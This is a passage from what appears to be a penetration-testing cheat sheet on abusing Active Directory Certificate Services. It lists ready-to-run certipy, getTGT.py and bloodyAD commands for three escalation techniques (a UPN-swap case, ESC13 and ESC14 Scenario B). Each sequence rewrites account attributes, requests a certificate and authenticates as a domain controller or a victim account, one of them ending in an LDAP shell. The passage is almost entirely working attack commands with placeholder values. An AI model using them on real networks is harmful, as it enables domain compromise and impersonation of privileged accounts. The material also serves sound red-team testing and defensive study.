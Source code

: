 ###### Exploitation (Case 2)

```sh
certipy account -u username@domain -p password -dc-ip ip -target dc -upn dc$@domain -user victim update
```

```sh
getTGT.py domain/victim:password -dc-ip ip
```

```sh
export KRB5CCNAME=victim.ccache
```

```sh
certipy req -k -dc-ip ip -target dc -ca ca -template User
```

```sh
certipy account -k -dc-ip ip -target dc -upn victim@domain -user victim update
```

```sh
certipy auth -pfx dc.pfx -dc-ip ip -ldap-shell
```

##### ESC13

```sh
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip
```

```sh
certipy auth -pfx file.pfx -dc-ip ip
```


##### ESC14 (Scenario B)

https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82

```sh
bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'
```

```sh
bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain
```

```sh
certipy account update -u owned_user@domain -p password -user username -upn target
```

```sh
certipy req -u username -p password -ca ca -template template -dc-ip ip
```

```sh
certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip
```

```sh
certipy auth -pfx pfx -dc-ip ip -user target -domain domain
```
